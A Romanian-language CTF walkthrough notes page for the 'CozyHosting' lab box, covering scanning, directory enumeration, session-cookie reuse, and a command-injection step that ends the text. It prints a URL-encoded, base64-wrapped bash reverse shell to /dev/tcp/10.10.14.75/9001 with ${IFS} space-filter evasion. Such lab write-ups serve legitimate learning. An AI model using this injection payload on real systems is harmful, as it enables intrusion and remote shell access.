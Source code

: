 1. User flag :)
Procedam in urmatorul fel facem o scanare cu ajutorul lui [[nmap]] ca sa putem vedea ce vectori de atack avem si porturile deschise in acelasi moment:
```bash
nmap -sSVC -T 4 <IP> -oN <file>
```
![[Pasted image 20230930183515.png]]
Fisierul de mai jos contine scanarea de mai sus:
![[CozyHosting]]
Deci avem 2 porturi deschise `80`,`22` sa incercam pe cel `80` care este un [[http request smuggling]]:
![[Pasted image 20230930183816.png]]
Dupa ce am acesat pagena vedem urmatoarea situatie:
Trebuie sa facem unele manipulari cu fisierul `/etc/hosts` o sa ne ajute utilita [[nano]] sau [[vi]]:
```bash
sudo nano /etc/hosts
```
Aceste trebuie sa adaugam la sfarsit ca sa putem accesa pagina:
![[Pasted image 20230930184135.png]]
Dupa ce am putut acesa pagena. Trebuie sa facem o scanare a directorilor ascunse. Acest lucru il pot face cu [[gobuster]] in felul urmator:
```bash
gobuster dir -u <URL> -w <wordlist>
```
Ce a gasit [[gobuster]] este foarte ciudat:
![[Pasted image 20230930190342.png]]
Am gasit versiunea la `Bootstrap`: v5.2.3
![[Pasted image 20230930185431.png]]
Aici am privit un pic cu ochiul la un write-up si am gasit urmatorul hint dupa eroarea care apare putem gasi pagina unde sunt useri nostri:
![[Pasted image 20230930191803.png]]
Dar cum sa intelegem eroarea data haideti sa ne clarificam:
Mai mult mam incurcat cu tehnologiea data las un hint ca trebuie sa revin [[Spring Boot]] sper sa nu uit.
	Acum mergem mai departe si trebuie sa inlocuim
`username` =`kanderson`
Am aflat de o utilita nou cu care trebuie sa ma fac mai cunostut in ultimul timp deoarece imi pare foarte interesanta: Denumita [[dirsearch]]
Datele pentru a intra pe panoul de utilizator sunt:
Cookie: `6FCC069420D14861F8ECB0D542E93C31` 
User: `kanderson`
Dupa ce am fost logat cu ajutorul tokenului in partea de jos putem vedea o forma de genu:
![[Pasted image 20231010124754.png]]
Trebuie sa introducem ceva date si dupa sa prindem `requestul` in [[Burp Suite]]:
![[Pasted image 20231010124858.png]]
Inlocuim `text` cu un payload in cazul meu este `%3Becho%24%7BIFS%25%3F%3F%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC43NS85MDAxIDA%2BJjEK%22%7Cbase64%24%7BIFS%25%3F%3F%7D%2Dd%7Cbash%3B` desi arata foarte strasnic este simplu sa vedem pe pasi:
1. Generam shellul:
		`echo -i >& /dev/tcp/10.10.14.75/9001 0>&1` -> YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NS85MDAxIDA+JjEK
2. Generam comanda pentru introducere a comenzii:
		`echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NS85MDAxIDA+JjEK"|base64 -d|bash`
3.  Dar forma noastra nu poate sa fii cu spatii liberi putem folosi `${IFS}` si daca dorim doar space-ul `echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NS85MDAxIDA+JjEK"|base64${IFS%??}-d|bash`